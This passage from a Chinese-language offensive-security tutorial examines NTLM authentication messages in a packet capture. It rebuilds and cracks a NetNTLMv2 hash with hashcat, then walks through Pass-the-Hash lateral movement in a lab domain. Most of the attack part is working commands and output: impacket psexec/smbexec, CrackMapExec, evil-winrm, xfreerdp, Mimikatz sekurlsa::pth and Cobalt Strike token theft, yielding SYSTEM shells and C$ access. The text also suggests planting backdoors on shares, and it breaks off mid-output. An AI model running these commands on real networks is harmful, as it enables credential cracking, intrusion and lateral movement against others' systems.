-   MessageType，值占 4-byte，值是 0x00000002 代表是当前消息是 CHALLENGE\_MESSAGE。NTLM Message Type: NTLMSSP\_CHALLENGE (0x00000002)。
    
-   TargetNameFields，占 8-byte，在 NegotiateFlags 字段中第 30 位 bit 被设置这里才有值。在包中是放在 TargetInfo 内，里面不管是服务器名 Target Name: RAINGRAY0，还有很多其他信息。
    
-   NegotiateFlags，值占 4-byte，和前面的协商 flag 一样。这里是告诉客户端服务端支持什么选项，能够支持的就 set。
    
    ```plaintext
      1... .... .... .... .... .... .... .... = Negotiate 56: Set
      .1.. .... .... .... .... .... .... .... = Negotiate Key Exchange: Set
      ..1. .... .... .... .... .... .... .... = Negotiate 128: Set
      ...0 .... .... .... .... .... .... .... = Negotiate 0x10000000: Not set
      .... 0... .... .... .... .... .... .... = Negotiate 0x08000000: Not set
      .... .0.. .... .... .... .... .... .... = Negotiate 0x04000000: Not set
      .... ..1. .... .... .... .... .... .... = Negotiate Version: Set
      .... ...0 .... .... .... .... .... .... = Negotiate 0x01000000: Not set
      .... .... 1... .... .... .... .... .... = Negotiate Target Info: Set
      .... .... .0.. .... .... .... .... .... = Request Non-NT Session: Not set
      .... .... ..0. .... .... .... .... .... = Negotiate 0x00200000: Not set
      .... .... ...0 .... .... .... .... .... = Negotiate Identify: Not set
      .... .... .... 1... .... .... .... .... = Negotiate Extended Security: Set
      .... .... .... .0.. .... .... .... .... = Target Type Share: Not set
      .... .... .... ..0. .... .... .... .... = Target Type Server: Not set
      .... .... .... ...1 .... .... .... .... = Target Type Domain: Set
      .... .... .... .... 1... .... .... .... = Negotiate Always Sign: Set
      .... .... .... .... .0.. .... .... .... = Negotiate 0x00004000: Not set
      .... .... .... .... ..0. .... .... .... = Negotiate OEM Workstation Supplied: Not set
      .... .... .... .... ...0 .... .... .... = Negotiate OEM Domain Supplied: Not set
      .... .... .... .... .... 0... .... .... = Negotiate Anonymous: Not set
      .... .... .... .... .... .0.. .... .... = Negotiate NT Only: Not set
      .... .... .... .... .... ..1. .... .... = Negotiate NTLM key: Set
      .... .... .... .... .... ...0 .... .... = Negotiate 0x00000100: Not set
      .... .... .... .... .... .... 0... .... = Negotiate Lan Manager Key: Not set
      .... .... .... .... .... .... .0.. .... = Negotiate Datagram: Not set
      .... .... .... .... .... .... ..0. .... = Negotiate Seal: Not set
      .... .... .... .... .... .... ...1 .... = Negotiate Sign: Set
      .... .... .... .... .... .... .... 0... = Request 0x00000008: Not set
      .... .... .... .... .... .... .... .1.. = Request Target: Set
      .... .... .... .... .... .... .... ..0. = Negotiate OEM: Not set
      .... .... .... .... .... .... .... ...1 = Negotiate UNICODE: Set
    ```
    
-   ServerChallenge，占比 8-byte，是个随机数。NTLM Server Challenge: 95eece51c4e0df33。
    
-   Reserved，占比 8-byte，没有实际作用。Reserved: 0000000000000000。
    
-   TargetInfoFields，总共占比 8-byte，从 WireShark 来看这里写服务端的信息是由 AvId，AvLen，Value 组成。根据 [AvId](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/83f5e789-660d-4781-8491-5f8c6641f75e) 值能够找到对应说明，比如第一个 Item 的 AvId 是 0x0002 占 2-byte，这代表 NetBIOS computer name，他的 AvLen 长度是 0x1200 占 2-byte，值是 RAINGRAY0 字节占比根据值动态扩展。
    
    ```plaintext
      Target Info
          Length: 188
          Maxlen: 188
          Offset: 74
          Attribute: NetBIOS domain name: RAINGRAY0
              Target Info Item Type: NetBIOS domain name (0x0002)
              Target Info Item Length: 18
              NetBIOS Domain Name: RAINGRAY0
          Attribute: NetBIOS computer name: WIN-08J3USI7CCN
              Target Info Item Type: NetBIOS computer name (0x0001)
              Target Info Item Length: 30
              NetBIOS Computer Name: WIN-08J3USI7CCN
          Attribute: DNS domain name: raingray.com
              Target Info Item Type: DNS domain name (0x0004)
              Target Info Item Length: 24
              DNS Domain Name: raingray.com
          Attribute: DNS computer name: WIN-08J3USI7CCN.raingray.com
              Target Info Item Type: DNS computer name (0x0003)
              Target Info Item Length: 56
              DNS Computer Name: WIN-08J3USI7CCN.raingray.com
          Attribute: DNS tree name: raingray.com
              Target Info Item Type: DNS tree name (0x0005)
              Target Info Item Length: 24
              DNS Tree Name: raingray.com
          Attribute: Timestamp
              Target Info Item Type: Timestamp (0x0007)
              Target Info Item Length: 8
              Timestamp: Nov 10, 2023 14:45:13.277288800 中国标准时间
          Attribute: End of list
              Target Info Item Type: End of list (0x0000)
              Target Info Item Length: 0
    ```
    
-   Version，与 NEGOTIATE\_MESSAGE 的一样，是服务器系统版本。系统明明是 Windows Server 2019 这里显示是 10，不过版本号 17763 倒是正确。
    

3.[AUTHENTICATE\_MESSAGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/033d32cc-88f9-4483-9bf2-b273055038ce)

-   Signature 和 NEGOTIATE\_MESSAGE、CHALLENGE\_MESSAGE 一样。
    
-   MessageType，值占 4-byte，设置为 0x00000003 表明这条是认证消息。NTLM Message Type: NTLMSSP\_AUTH (0x00000003)
    
-   LmChallengeResponseFields，占 8-byte，这里是说如果启用了 LM 认证就使用 LM 计算。Lan Manager Response: 000000000000000000000000000000000000000000000000 是 24-byte。
    
-   NtChallengeResponseFields，这就是用 NT Hash 加密后的 response，占 8-byte。NTLM Response: 40369679cf7969dfc0e6f9bc9e65ce7f01010000000000001872e674a113da01ac8993e9…
    
    ```plaintext
      NTLMv2 Response: 40369679cf7969dfc0e6f9bc9e65ce7f01010000000000001872e674a113da01ac8993e9…
          NTProofStr: 40369679cf7969dfc0e6f9bc9e65ce7f
          Response Version: 1
          Hi Response Version: 1
          Z: 000000000000
          Time: Nov 10, 2023 06:45:13.277288800 UTC
          NTLMv2 Client Challenge: ac8993e942a9a92c
          Z: 00000000
          Attribute: NetBIOS domain name: RAINGRAY0
          Attribute: NetBIOS computer name: WIN-08J3USI7CCN
          Attribute: DNS domain name: raingray.com
          Attribute: DNS computer name: WIN-08J3USI7CCN.raingray.com
          Attribute: DNS tree name: raingray.com
          Attribute: Timestamp
          Attribute: Flags
          Attribute: Restrictions
          Attribute: Channel Bindings
          Attribute: Target Name: cifs/192.168.52.133
          Attribute: End of list
          padding: 00000000
    ```
    
    DomainNameFields，占 8-byte，客户端发送当前域名信息到服务器。Domain name: RAINGRAY0。
    
-   UserNameFields，占 8-byte，客户端发送用户名信息到服务器，User name: wuhui。
    
-   WorkstationFields，占 8-byte，将系统主机名发送给服务器。Host name: DESKTOP-5T90749。
    
-   EncryptedRandomSessionKeyFields，占 8-byte，。Session Key: a2aab568c67e73df9ed644e24a0601e8。
    
-   NegotiateFlags，值占 4-byte，这里再次发送服务端支持的选项，表示客户端达成一致。
    
-   Version，值占 8-byte，和 NEGOTIATE\_MESSAGE 中的一模一样。
    
-   MIC，值占 16-byte，使用 HMAC-MD5 哈希算法 EncryptedRandomSessionKeyFields 做为密钥对 NEGOTIATE\_MESSAGE、CHALLENGE\_MESSAGE、AUTHENTICATE\_MESSAGE 消息进行哈希，产生的签名，用于保证消息完整性。
    

NTLMv2 Response 计算过于复杂，这里只是需要认识怎么组成的即可，下面是组成格式。

```plaintext
User::Domain:Server Challenge:HMAC-MD5(NTProfStr):Blob(without HMAC-MD5 NTProfStr)
```

User、Domain、NTProfStr、NTLMv2 Response 从 AUTHENTICATE\_MESSAGE 里找即可。



```plaintext
Domain name: RAINGRAY0
User name: wuhui
```

HMAC-MD5(NTProfStr) 在 NTLMv2 Response 里。



```plaintext
NTProofStr: 40369679cf7969dfc0e6f9bc9e65ce7f
```

Blob(without HMAC-MD5 NTProfStr) 右键复制 NTLMv2 Response 整个值，再删除开头的 NTProfStr（40369679cf7969dfc0e6f9bc9e65ce7f）即可。



```plaintext
01010000000000001872e674a113da01ac8993e942a9a92c00000000020012005200410049004e004700520041005900300001001e00570049004e002d00300038004a0033005500530049003700430043004e00040018007200610069006e0067007200610079002e0063006f006d0003003800570049004e002d00300038004a0033005500530049003700430043004e002e007200610069006e0067007200610079002e0063006f006d00050018007200610069006e0067007200610079002e0063006f006d00070008001872e674a113da0106000400020000000800300030000000000000000000000000200000ad5e874fd560ec6ccd38a96bf607b40e7ee1e17b9e0b4885202299f77b5df8040a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00350032002e003100330033000000000000000000
```

Server Challenge 在 CHALLENGE\_MESSAGE 中。



```plaintext
NTLM Server Challenge: 95eece51c4e0df33
```

最后按照格式填充这些内容得到完整 NTLMv2 hash。

```plaintext
# NTLMv2 Hash Format
# User::Domain:Server Challenge:HMAC-MD5(NTProfStr):Blob(without HMAC-MD5 NTProfStr)
wuhui::RAINGRAY0:95eece51c4e0df33:40369679cf7969dfc0e6f9bc9e65ce7f:01010000000000001872e674a113da01ac8993e942a9a92c00000000020012005200410049004e004700520041005900300001001e00570049004e002d00300038004a0033005500530049003700430043004e00040018007200610069006e0067007200610079002e0063006f006d0003003800570049004e002d00300038004a0033005500530049003700430043004e002e007200610069006e0067007200610079002e0063006f006d00050018007200610069006e0067007200610079002e0063006f006d00070008001872e674a113da0106000400020000000800300030000000000000000000000000200000ad5e874fd560ec6ccd38a96bf607b40e7ee1e17b9e0b4885202299f77b5df8040a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00350032002e003100330033000000000000000000
```

关于 NTLMv1 Hash 没提到过，这里只展示其格式，后续的抓包等内容有空再补上。

```plaintext
NTLMv1 Hash Format
UserName::HostName:LmChallengeResponse:NtChallengeResponse:Server Challenge
```

#### 3.2.2 Crack NT hash 和 NTLM hash

涉及 NTLM hash 需要使用 hashcat 爆字典得到明文密码，但 NTLMv1 和 NTLMv2 难度不一样。

如果目标用的是 HTTP 应用使用 NTLM 认证，那么可以尝试密码喷洒。

**1\. NT hash 破解**

hashcat 字典枚举。

```plaintext
hashcat -m 1000 nelly.hash 
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
```

直接去 cmd5 查 NT hash 会更快一些，人家的库更大。

**2.NTLMv1 hash 破解⚒️**

**3.NTLMv2 hash 破解**

这里展示用 hashcat NTLMv2 爆破。哈希来自 NTLM 网络认证小节中的 NTLM 域认证.pcapng。

```plaintext
┌──(root㉿raingray)-[~]
└─# hashcat -a 0 -m 5600 smbhash.txt pass.txt
hashcat (v6.2.6) starting

......

Dictionary cache built:
* Filename..: pass.txt
* Passwords.: 1
* Bytes.....: 11
* Keyspace..: 1
* Runtime...: 0 secs

......

Approaching final keyspace - workload adjusted.

WUHUI::RAINGRAY0:95eece51c4e0df33:40369679cf7969dfc0e6f9bc9e65ce7f:01010000000000001872e674a113da01ac8993e942a9a92c00000000020012005200410049004e004700520041005900300001001e00570049004e002d00300038004a0033005500530049003700430043004e00040018007200610069006e0067007200610079002e0063006f006d0003003800570049004e002d00300038004a0033005500530049003700430043004e002e007200610069006e0067007200610079002e0063006f006d00050018007200610069006e0067007200610079002e0063006f006d00070008001872e674a113da0106000400020000000800300030000000000000000000000000200000ad5e874fd560ec6ccd38a96bf607b40e7ee1e17b9e0b4885202299f77b5df8040a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00350032002e003100330033000000000000000000:Wu1hui@123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: WUHUI::RAINGRAY0:95eece51c4e0df33:40369679cf7969dfc...000000
Time.Started.....: Sun Nov 12 14:27:39 2023 (0 secs)
Time.Estimated...: Sun Nov 12 14:27:39 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      731 H/s (0.05ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Wu1hui@123 -> Wu1hui@123

Started: Sun Nov 12 14:27:23 2023
Stopped: Sun Nov 12 14:27:41 2023
```

#### 3.2.3 Pass The Hash (PtH)

Pass The Hash 简称 PtH，中文叫哈希传递。原理也简单，在前面讨论 NTLM 认证细节时 AUTHENTICATE\_MESSAGE 在对 Challenge 等内容做摘要计算就用到了 NT hash，因此可以拿着 NT hash 通过网络认证访问服务。

最常见的一个利用场景是内网很多机器都使用相同的密码。比如内网中的云桌面打包 Windows 系统模板，一旦使用模板创建出的机器 Administrator 哈希都是一致的，只要拿下一台机器可以尝试导出 Administrator 的 NT hash 对其他系统服务进行 PtH 认证，就有可能获得权限——当然这是拿不到明文密码和 NT hash 无法撞出明文时的选择。

为什么只说拿 Administrator 进行 PtH，用 Administrators 组内其他本地管理员用户进行 PtH 不可以吗？这在后面 PtH 限制小节中会详细讲，简单来说是因为默认远程 UAC 启用，无法获得管理员权限。

*OPSEC：使用 NTLM 登录目标机器，System 类别会产生 Event ID 4624 的 Logon 日志。*

**一、常见利用方式**

1.WMI

使用 WMI 也可以执行命令，但是得到什么权限得看具体账户。

```plaintext
python wmiexec.py -hashes 00000000000000000000000000000000:<NTHash> <UserName>@<IP> [Command]
```

2.SMB

目标是 SMB 可以尝试 PtH 登上去查文件或者将正常文件替换成后门做水坑。

```plaintext
smbclient \\\\<IP>\\<Dir> -U <UserName> --pw-nt-hash <NTHash>
```

impacket 也有对应 [smbclient.py](https://github.com/fortra/impacket/blob/master/examples/smbclient.py) 可用。

```plaintext
# 工作组
smbclient.py -hashes 00000000000000000000000000000000:<NTHash> workgroup/<UserName>@<IP>
smbclient.py -hashes 00000000000000000000000000000000:<NTHash> <UserName>@<IP>

# 使用域
smbclient.py -hashes 00000000000000000000000000000000:<NTHash> <DomainName>/<UserName>@<IP>
```

为了获取权限最常见的就是 [PsExec](https://github.com/fortra/impacket/blob/master/examples/psexec.py)，原理是上传程序到共享 ADMIN$，通过运行程序创建服务并以 SYSTEM 账户运行服务。第一个参数 -hash 的值是 LMHash:NTHash，其中 LMHash 可以用 32 个 bit 的 0 代替或者滞空，第二个参数是指定用户名和 IP，第三个参数是要执行的命令，这是可选的，如果不写具体的命令就执行 cmd.exe 并返回。

```plaintext
python psexec.py -hashes :<NTHash> [Domain/]<UserName>@<IP> [Command]
```

这里执行命令返回的乱码是因为没有指定编码，使用 -codec gbk 即可解决中文乱码问题。

```plaintext
┌──(raingray㉿raingray)-[~/桌面]
└─$ impacket-psexec -hashes :9df8fdcfb193c34fb9770367491e25d1 wuhui@192.168.37.2  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.37.2.....
[*] Found writable share ADMIN$
[*] Uploading file KAysSUHQ.exe
[*] Opening SVCManager on 192.168.37.2.....
[*] Creating service XWpQ on 192.168.37.2.....
[*] Starting service XWpQ.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.19045.3448]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) Microsoft Corporation����������Ȩ����


C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 9009
[*] Opening SVCManager on 192.168.37.2.....
[*] Stopping service XWpQ.....
[*] Removing service XWpQ.....
[*] Removing file KAysSUHQ.exe
```

[smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) 和 psexec.py 原理一模一样，相比 psexec.py 它更灵活，-mode 可以指定执行命令的方式是 SHARE 还是 SERVER，-share 可以指定程序上传到哪个共享，-service-name 可以指定上传程序后创建的服务名，-shell-type 可以指定执行命令使用 PowerShell 还是 cmd。

```plaintext
smbexec.py -hashes :<NTHash> [Domain/]<UserName>@<IP> [Command]
```

```plaintext
┌──(raingray㉿raingray)-[~/桌面]
└─$ impacket-smbexec -hashes :9df8fdcfb193c34fb9770367491e25d1 wuhui@192.168.37.2
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) 可以用来快速验证哈希是否正确，一旦验证成功就可以用 impacket 的 smbexec.py 拿权限。

```plaintext
# 扫网段
crackmapexec smb <IP>/<CIDR> [–d <Domain FQDN>]-u <UserName> -H <NTHash> [-X <Command>]

# 指定单个主机
crackmapexec smb <IP> [–d <Domain FQDN>]-u <UserName> -H <NTHash> [-X <Command>]
```

3.WinRM

使用 [evil-winrm](https://github.com/Hackplayers/evil-winrm) 可以传递哈希获得 Shell。此服务在 Windows Server 上默认开启，使用 HTTP 5985/5986 端口，在 445 没开启的情况而下好用。

```plaintext
evil-winrm -u <username> -H <NT hash> -i <IP>
```

4.RDP

Windows 8.1 和 Windows Server 2012 R2 引入了 [Restricted Admin Mode](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn283323(v=ws.11)#restrictedadmin-mode-remote-desktop)，后来 13 年在一篇名为[《New “Restricted Admin” feature of RDP 8.1 allows pass-the-hash》](https://labs.portcullis.co.uk/blog/new-restricted-admin-feature-of-rdp-8-1-allows-pass-the-hash/#imageclose-2087)文章中发布通过 PtH 登录远程桌面。

具体原因是利用了 [Restricted Admin mode](https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx) 特性，RDP 使用次模式连接到目标系统，连接过程用 NT Hash 进行 Kerberos 认证，从而不用输入明文密码即可使用，这个模式的意义在于连接到目标系统后不会保留哈希和明文在内存中，当目标服务器被入侵后杜绝了凭证窃取的操作。

针对 RDP 进行 PtH 需同时满足以下 3 个利用条件：

-   服务端开启了 RDP，并拿到其本地 Administrator 组成员哈希
    
-   服务端注册表中启用了 Restricted Admin mode。
    
    默认情况此注册表不存在，代表模式是关闭的。这需要服务端在注册表主动开启 DisableRestrictedAdmin。配置完即时生效。经过测试，Windows Server 2019 和 Windows 10 都支持此模式。
    
    ```plaintext
    reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ```
    
    在关闭状态下 PtH 会提示限制登录的警告，无法登录。
    
    
    
-   客户端工具支持 Restricted Admin mode 进行连接。
    

简写成一句话就是，对方服务器主动开启受限管理模式的情况下，才能用支持受限模式的客户端拿管理员哈希进行 PtH。

最常见的利用工具是 Mimikatz，使用 mstsc /restrictedadmin 启动 Restricted Admin mode 连接服务器，当认证完成后 mstsc 程序也打开了，直接输入目标 IP 即可不用密码连接。

```plaintext
mimikatz privilege::debug "sekurlsa::pth /user:<Username> /domain:<Domain> /ntlm:<NT HASH> /run:\"mstsc /restrictedadmin\"" exit
```

另一个工具可以用 xfreerdp，在 Kali 中自带。

```plaintext
xfreerdp /v:<IP Address> /u:<Username> [/d:<Domain>] /pth:<NT HASH>
```

```plaintext
┌──(raingray㉿raingray)-[~/桌面]
└─$ xfreerdp /v:192.168.37.2 /u:wuhui  /pth:9df8fdcfb193c34fb9770367491e25d1 
[16:34:22:132] [1161828:1161829] [INFO][com.freerdp.crypto] - creating directory /home/raingray/.config/freerdp
[16:34:22:132] [1161828:1161829] [INFO][com.freerdp.crypto] - creating directory [/home/raingray/.config/freerdp/certs]
[16:34:22:132] [1161828:1161829] [INFO][com.freerdp.crypto] - created directory [/home/raingray/.config/freerdp/server]
[16:34:22:175] [1161828:1161829] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[16:34:22:175] [1161828:1161829] [WARN][com.freerdp.crypto] - CN = PC-02.raingray.com
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - The hostname used for this connection (192.168.37.2:3389) 
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - Common Name (CN):
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] -  PC-02.raingray.com
[16:34:22:176] [1161828:1161829] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 192.168.37.2:3389 (RDP-Server):
        Common Name: PC-02.raingray.com
        Subject:     CN = PC-02.raingray.com
        Issuer:      CN = PC-02.raingray.com
        Thumbprint:  e0:47:4e:4d:53:3a:f3:68:c3:bc:d1:bc:ed:11:3a:22:22:5a:b7:8e:39:a9:3a:d1:2e:eb:45:ce:fb:b3:ab:fb
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
[16:34:38:664] [1161828:1161829] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[16:34:38:664] [1161828:1161829] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[16:34:38:710] [1161828:1161829] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[16:34:38:711] [1161828:1161829] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[16:34:39:459] [1161828:1161829] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_WARNING [LOGON_MSG_BUMP_OPTIONS]
[16:35:11:839] [1161828:1161829] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_WARNING [LOGON_MSG_SESSION_CONTINUE]
```



5.Mimikatz

Mimikatz 进行 PtH 也是需要管理员权限，sekurlsa::pth 代表要使用 PtH，/user 填写用户名，/ntlm 填写 NT hash，/domain 是说要 PtH 的用户属于域还是工作组，域账户填写域名 FQDN，本地账户写 .。

```plaintext
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<UserName> /ntlm:<NT Hash> /domain:<Domain Name>" "exit"
```

在目标机器上传 mimikatz.exe 并对内网其他机器执行 PtH，成功后会在目标机器运行命令提示符。为什么默认运行的命令是 cmd.exe？这是默认参数，你也可以使用 /run 运行其他程序。

```plaintext
C:\Users\wuhui.RAINGRAY0\Desktop\x64>mimikatz privilege::debug "sekurlsa::pth /user:Administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92 " exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::pth /user:Administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92
user    : Administrator
domain  : raingray.com
program : cmd.exe
impers. : no
NTLM    : 7a1ced034321b4d9c4a273de3f2b8e92
  |  PID  6664
  |  TID  5768
  |  LSA Process is now R/W
  |  LUID 0 ; 8618745 (00000000:008382f9)
  \_ msv1_0   - data copy @ 000002381AEA9E00 : OK !
  \_ kerberos - data copy @ 000002381AEFCD08
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002381B61A428 (32) -> null

mimikatz(commandline) # exit
Bye!
```

在弹出的命令提示符中就可以访问其他机器的 c$。

```plaintext
Microsoft Windows [版本 10.0.19045.3448]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32>dir \\192.168.52.133\c$\users
 驱动器 \\192.168.52.133\c$ 中的卷没有标签。
 卷的序列号是 C69D-4CBF

 \\192.168.52.133\c$\users 的目录

2023/10/16  09:10    <DIR>          .
2023/10/16  09:10    <DIR>          ..
2023/10/16  09:10    <DIR>          Administrator
2023/10/16  09:10    <DIR>          Public
               0 个文件              0 字节
               4 个目录 51,123,712,000 可用字节

C:\Windows\system32>
```

如果不想弹窗口用 powershell -w hidden，执行完会一闪而过。缺点是 AV 会触发警告或自动拦截，有了窗口还没法向进程执行命令拿响应结果。

```plaintext
mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92 /run:\"powershell -w hidden -c {dir}\"" exit
```

为了方便解决此问题，用 Cobalt Strike 窃取进程 Token 来获取 PowerShell 权限。

一样的先执行隐藏的 PowerShell。

```plaintext
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92 /run:"powershell -w hidden"
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92 /run:"powershell -w hidden" command
[+] host called home, sent: 788113 bytes
[+] received output:
user    : Administrator
domain  : raingray.com
program : powershell -w hidden
impers. : no
NTLM    : 7a1ced034321b4d9c4a273de3f2b8e92
  |  PID  2600
  |  TID  2616
  |  LSA Process is now R/W
  |  LUID 0 ; 9351000 (00000000:008eaf58)
  \_ msv1_0   - data copy @ 000002381AEA9E00 : OK !
  \_ kerberos - data copy @ 000002381AEFCD08
   \_ des_cbc_md4       -> null             
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002381B61ADE8 (32) -> null
```

接着窃取 PowerShell 的 Token 就可以访问目标 c$。

```plaintext
beacon> help steal_token
Use: steal_token [pid]

Steal an access token from a process.
beacon> steal_token 2600
[*] Tasked beacon to steal token from PID 2600
[+] host called home, sent: 12 bytes
[+] Impersonated RAINGRAY0\Administrator
beacon> shell dir \\192.168.52.133\c$\users
[*] Tasked beacon to run: dir \\192.168.52.133\c$\users
[+] host called home, sent: 60 bytes
[+] received output:
 驱动器 \\192.168.52.133\c$ 中的卷没有标签。
 卷的序列号是 C69D-4CBF

 \\192.168.52.133\c$\users 的目录

2023/10/16  09:10    <DIR>          .
2023/10/16  09:10    <DIR>          ..
2023/10/16  09:10    <DIR>          Administrator
2023/10/16  09:10    <DIR>          Public
               0 个文件              0 字节
               4 个目录 51,127,185,408 可用字节
```

操作执行完毕恢复当前 beacon.exe 的 Token，并杀掉 PowerShell 进程。

```plaintext
beacon> help rev2self
Use: rev2self

Revert to your original access token
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
beacon> kill 2600
[*] Tasked beacon to kill 2600
[+] host called home, sent: 12 bytes
```

经过测试，执行 Cobalt Strike 中 pth 命令不弹窗口，而且 Cobalt Strike 中自带 pth 命令，是使用对 Mimikataz 的 pth 功能做了包装。其中的向命名管道写数据，不太知道原理是什么，关于命令管道和 PtH 的相关性有找到篇文章 [Named Pipe Pass-the-Hash](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/) 没看太明白。

```plaintext
beacon> help pth
Use: pth [pid] [arch] [DOMAIN\user] [NTLM hash]
     pth [DOMAIN\user] [NTLM hash]

Inject into the specified process to generate AND impersonate a token.

Use pth with no [pid] and [arch] arguments to spawn a temporary
process to generate AND impersonate a token.

This command uses mimikatz to generate AND impersonate a token that uses the
specified DOMAIN, user, and NTLM hash as single sign-on credentials. Beacon
will pass this hash when you interact with network resources.
beacon> pth raingray.com\administrator 7a1ced034321b4d9c4a273de3f2b8e92
[*] Tasked beacon to run Mimikatz inject pid:4192
[+] host called home, sent: 23 bytes
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:administrator /domain:raingray.com /ntlm:7a1ced034321b4d9c4a273de3f2b8e92 /run:"%COMSPEC% /c echo 65a93d6d0ec > \\.\pipe\796bc1" command into 4192 (x64)
[+] host called home, sent: 297599 bytes
[+] Impersonated RAINGRAY0\Administrator
[+] received output:
user    : administrator
domain  : raingray.com
program : C:\Windows\system32\cmd.exe /c echo 65a93d6d0ec > \\.\pipe\796bc1
impers. : no
NTLM    : 7a1ced034321b4d9c4a273de3f2b8e92
  |  PID  964
  |  TID  6276
  |  LSA Process is now R/W
  |  LUID 0 ; 8897518 (00000000:0087c3ee)
  \_ msv1_0   - data copy @ 000002381AEAA7B0 : OK !
  \_ kerberos - data copy @ 000002381AEFAF48
   \_ des_cbc_md4       -> null             
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002381B61A428 (32) -> null

beacon> shell dir \\192.168.52.133\c$\users
[*] Tasked beacon to run: dir \\192.168.52.133\c$\users
[+] host called home, sent: 60 bytes
[+] received output:
